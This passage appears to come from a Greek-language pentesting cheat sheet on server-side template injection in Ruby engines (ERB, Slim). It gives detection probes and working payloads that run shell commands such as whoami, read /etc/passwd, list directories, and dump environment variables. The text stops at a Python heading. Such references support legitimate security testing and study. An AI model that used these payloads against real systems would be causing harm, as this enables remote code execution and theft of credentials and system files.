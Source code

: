 <figure><img src="../../images/image (1) (1) (1).png" alt=""><figcaption><p><a href="https://miro.medium.com/v2/resize:fit:640/format:webp/1*jj_-oBi3gZ6UNTvkBogA6Q.jpeg">https://miro.medium.com/v2/resize:fit:640/format:webp/1*jj_-oBi3gZ6UNTvkBogA6Q.jpeg</a></p></figcaption></figure>

- Περισσότερες πληροφορίες στο [https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)

### ERB (Ruby)

- `{{7*7}} = {{7*7}}`
- `${7*7} = ${7*7}`
- `<%= 7*7 %> = 49`
- `<%= foobar %> = Error`
```python
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file

<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```
**Περισσότερες πληροφορίες**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)

### Slim (Ruby)

- `{ 7 * 7 }`
```
{ %x|env| }
```
**Περισσότερες πληροφορίες**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)

### Άλλο Ruby

<figure><img src="../../images/image (4).png" alt=""><figcaption><p><a href="https://miro.medium.com/v2/resize:fit:640/format:webp/1*VeZvEGI6rBP_tH-V0TqAjQ.jpeg">https://miro.medium.com/v2/resize:fit:640/format:webp/1*VeZvEGI6rBP_tH-V0TqAjQ.jpeg</a></p></figcaption></figure>

<figure><img src="../../images/image (5).png" alt=""><figcaption><p><a href="https://miro.medium.com/v2/resize:fit:640/format:webp/1*m-iSloHPqRUriLOjpqpDgg.jpeg">https://miro.medium.com/v2/resize:fit:640/format:webp/1*m-iSloHPqRUriLOjpqpDgg.jpeg</a></p></figcaption></figure>

- Περισσότερες πληροφορίες στο [https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)

### Python

Δείτε την παρακάτω σελίδα για να μάθετε κόλπα σχετικά με **παράκαμψη εκτέλεσης αυθαίρετων εντολών σε sandbox** στην python:
